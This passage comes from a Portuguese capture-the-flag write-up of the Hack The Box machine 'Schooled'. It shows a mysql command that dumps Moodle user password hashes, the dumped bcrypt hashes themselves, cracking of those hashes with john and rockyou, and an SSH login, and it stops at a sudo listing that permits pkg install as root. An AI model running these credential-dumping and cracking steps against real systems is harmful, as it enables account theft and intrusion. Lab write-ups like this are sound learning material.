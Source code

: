 O dump das credenciais foi possível a partir do comando abaixo:

```bash
$ /usr/local/bin/mysql -u moodle --password=PlaybookMaster2020 -e "use moodle; select email,username,password from mdl_user; exit" | grep -v 'student.'
mysql: [Warning] Using a password on the command line interface can be insecure.
ERROR 1064 (42000) at line 1: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'exit' at line 1
email   username        password
root@localhost  guest   $2y$10$u8DkSWjhZnQhBk1a0g1ug.x79uhkx/sa7euU8TI4FX4TCaXK6uQk2
jamie@staff.schooled.htb        admin   $2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW
higgins_jane@staff.schooled.htb higgins_jane    $2y$10$n9SrsMwmiU.egHN60RleAOauTK2XShvjsCS0tAR6m54hR1Bba6ni2
phillips_manuel@staff.schooled.htb      phillips_manuel $2y$10$ZwxEs65Q0gO8rN8zpVGU2eYDvAoVmWYYEhHBPovIHr8HZGBvEYEYG
carter_lianne@staff.schooled.htb        carter_lianne   $2y$10$jw.KgN/SIpG2MAKvW8qdiub67JD7STqIER1VeRvAH4fs/DPF57JZe
```

Com base nos hashes, criei um arquivo no formato `username:hash` e executei o comando `john`, onde obtive a senha para o usuário `jamie` conforme output abaixo:

```bash
$ john --wordlist=/usr/share/wordlists/rockyou.txt accounts.txt                                                                 Using default input encoding: UTF-8
Loaded 5 password hashes with 5 different salts (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
!QAZ2wsx         (jamie)
Use the "--show" option to display all of the cracked passwords reliably
Session aborted
```

Com estas credenciais, consegui me logar via SSH e obter a flag no arquivo `user.txt` :smile:

```bash
jamie@Schooled:~ $ id && hostname && cat user.txt
uid=1001(jamie) gid=1001(jamie) groups=1001(jamie),0(wheel)
Schooled
<redacted>
```

## Root Flag

Antes de iniciar a enumeração, iniciei executando o comando `sudo -l` como de costume, onde pude identificar as seguintes permissões para o usuário como root:

```bash
jamie@Schooled:~ $ sudo -l
User jamie may run the following commands on Schooled:
    (ALL) NOPASSWD: /usr/sbin/pkg update
    (ALL) NOPASSWD: /usr/sbin/pkg install *
```

